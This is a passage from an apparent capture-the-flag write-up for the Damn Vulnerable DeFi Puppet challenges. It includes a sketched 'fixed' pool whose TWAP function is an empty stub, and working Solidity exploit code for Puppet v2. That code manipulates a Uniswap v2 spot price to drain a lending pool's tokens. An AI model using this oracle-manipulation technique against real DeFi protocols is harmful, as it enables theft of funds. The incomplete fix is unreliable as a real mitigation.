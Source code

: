 ### Fix
```solidity
// Use time-weighted average price or multiple oracle sources
contract FixedPuppetPool {
    uint256 public constant PRICE_UPDATE_THRESHOLD = 10; // 10%
    uint256 public lastPriceUpdate;
    uint256 public cumulativePrice;
    
    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        // Use TWAP instead of spot price
        uint256 twapPrice = getTWAP();
        return amount * twapPrice * DEPOSIT_FACTOR / 10**18;
    }
    
    function getTWAP() internal view returns (uint256) {
        // Implementation of time-weighted average price
        // Should span multiple blocks/hours for accuracy
    }
}
```

---

## Challenge 9: Puppet v2

### Vulnerability
Similar to Puppet v1 but uses Uniswap v2. The price manipulation attack is the same concept but with v2 mechanics.

### Exploit Code
```solidity
// In PuppetV2.t.sol - test_puppetV2() function  
function test_puppetV2() public checkSolvedByPlayer {
    // Wrap ETH to WETH
    weth.deposit{value: PLAYER_INITIAL_ETH_BALANCE}();
    
    // Approve tokens for Uniswap v2
    token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
    weth.approve(address(uniswapV2Router), PLAYER_INITIAL_ETH_BALANCE);
    
    // Create swap path: DVT -> WETH
    address[] memory path = new address[](2);
    path[0] = address(token);
    path[1] = address(weth);
    
    // Swap all DVT tokens for WETH to crash DVT price
    uniswapV2Router.swapExactTokensForTokens(
        PLAYER_INITIAL_TOKEN_BALANCE,   // amount in
        1,                              // min amount out  
        path,                           // swap path
        player,                         // recipient
        block.timestamp + 1             // deadline
    );
    
    // Calculate required WETH collateral after price crash
    uint256 poolBalance = token.balanceOf(address(lendingPool));
    uint256 requiredWETH = lendingPool.calculateDepositOfWETHRequired(poolBalance);
    
    // Approve WETH for lending pool
    weth.approve(address(lendingPool), requiredWETH);
    
    // Borrow all tokens from pool using crashed price
    lendingPool.borrow(poolBalance);
```